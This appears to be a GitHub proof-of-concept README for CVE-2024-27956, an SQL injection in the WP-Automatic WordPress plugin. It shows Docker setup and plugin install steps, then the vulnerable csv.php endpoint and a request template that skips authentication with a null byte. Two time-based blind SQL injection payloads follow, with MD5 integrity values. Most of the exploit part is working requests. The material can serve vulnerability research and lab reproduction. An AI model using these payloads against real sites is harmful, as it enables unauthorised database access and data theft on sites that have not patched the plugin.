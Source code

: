 # CVE-2024-27956-Poc
Note

Build wordpress: docker-compose -f stack.yml up

File: https://github.com/truonghuuphuc/CVE-2024-27956/blob/main/wp-automatic.zip

Install plugin:
1. WordPress dashboard, choose Plugins > Add New

2. Click Upload Plugin

![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/39c596dd-bb5c-457f-87e8-b811a1cd0f12)

3. Choose File -> wp-automatic.zip ->  Install Now

![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/13880686-b083-458b-975d-2cab35c11fc0)

4. After the installation is complete, click Activate Plugin

![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/ecfc78d1-7a43-4ca1-88a0-d6e9db875e60)

Exploit

```<HOST>/wp-content/plugins/wp-automatic/inc/csv.php```

```q={{query}}&auth=%00&integ={{md5query}}```
```
q=SELECT+IF(1=1,sleep(5),sleep(0))&auth=%00&integ=93cf9aa11e746596d6f31765a7222c9f
```
![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/f480537c-5961-4f15-9671-0cc4bf4afd8a)
```
q=SELECT+IF(1=2,sleep(5),sleep(0))&auth=%00&integ=4b1f4024af81df56c3b00679b9b52183
```
![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/7311aa48-9c2b-43a9-a858-6488badff071)
